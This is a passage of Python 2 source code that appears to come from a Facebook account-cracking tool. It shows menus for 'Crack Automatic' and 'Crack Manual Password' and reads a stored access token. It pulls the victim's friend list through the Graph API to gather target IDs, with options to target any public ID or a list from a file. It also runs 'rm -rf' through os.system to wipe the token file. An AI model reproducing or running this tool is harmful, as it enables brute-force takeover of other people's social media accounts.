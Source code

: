 	print ("[2] Crack Manual Password")
	print ("[0] Exit            ")
	print (40*"-")
	action()


def action():
	chb = raw_input("\n>>>")
	if chb =="":
		print ("[!] Fill in correctly")
		action()
	elif chb =="1":
	    crack_menu()
	elif chb =="2":
		choice_menu()
	elif chb =="8":
	    menu()
	elif chb =="0":
	    os.system("rm -rf ....")
	    print
	    psb("Logout successfully")
	elif chb =="0":
		exb()
	else:
		print ("[!] Fill in correctly")
		action()

###### CRACK OTOMATIS ######

def crack_menu():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 PAHRUL.py")
	print (logo)
	print (40*"-")
	print ("[1] Crack From Friend List")
	print ("[2] Crack From Any Public ID")
	print ("[3] Crack From File")
	print ("[0] Back")
	print (40*"-")
	crack_action()

def crack_action():
	bch = raw_input("\n>>>")
	if bch =="":
		print ("[!] Fill in correctly")
		crack_action()
	elif bch =="1":
		os.system("clear")
		print (logo)
		print (40*"-")
		r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])
	elif bch =="2":
		os.system("clear")
		print (logo)
		print (40*"-")
		idt = raw_input("[✓] Enter ID : ")